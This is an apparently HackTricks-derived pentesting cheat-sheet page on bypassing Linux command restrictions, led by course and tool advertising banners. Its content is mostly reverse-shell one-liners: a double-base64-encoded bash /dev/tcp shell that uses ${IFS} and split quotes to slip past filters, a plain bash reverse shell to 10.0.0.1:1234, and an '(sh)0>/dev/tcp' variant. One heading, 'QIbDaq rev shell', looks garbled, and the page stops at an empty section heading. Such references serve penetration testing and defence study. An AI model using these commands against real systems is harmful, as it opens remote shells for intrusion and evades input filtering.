 # Bypass Linux Restrictions

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Common Limitations Bypasses

### Reverse Shell
```bash
# Double-Base64 is a great way to avoid bad characters like +, works 99% of the time
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
# echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```
### QIbDaq rev shell

The following is a short reverse shell script in Bash:

```bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

This script establishes a reverse shell connection to the IP address `10.0.0.1` on port `1234`. It redirects the input/output streams to the network socket, allowing for remote command execution.
```bash
#Trick from Dikline
#Get a rev shell with
(sh)0>/dev/tcp/10.10.10.10/443
#Then get the out of the rev shell executing inside of it:
exec >&0
```
### Bypass Paths and forbidden words
